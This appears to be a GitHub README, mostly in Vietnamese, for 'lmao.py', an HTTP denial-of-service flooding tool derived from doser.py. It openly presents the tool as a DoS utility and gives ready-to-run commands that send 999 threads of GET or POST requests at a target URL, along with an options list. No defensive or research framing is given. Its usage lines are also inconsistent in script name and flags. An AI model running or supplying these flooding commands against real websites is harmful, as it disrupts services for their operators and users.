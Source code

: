 # lmao.py
Công cụ DoS cho các yêu cầu HTTP (lấy cảm hứng từ Kaisa nhưng có nhiều chức năng hơn) được viết bằng Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Ví Dụ
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Cách sử dụng
``` Nếu bạn chọn <g> thì sẽ là : python lmao.py -t 999 -g 'URL'```

```Nếu bạn chọn <p> thì sẽ là : python lmao.py -t 999 -p 'URL'```

```Nếu bạn chọn <d> thì sẽ là : python lmao.py -t 999 -d 'URL' ```


Các tùy chọn :

  -h, --help  show this help message and exit
  
  -g       -- Specify GET request. Usage: -g '< url >'
  
  -p      --  Specify POST request. Usage: -p '< url >'
  
  -d      --  Specify data payload for POST request
  
  -ah     -- Specify addtional header
  
  -t      --  Specify number of threads to be used

# BY:
Duong Quang Truong :)
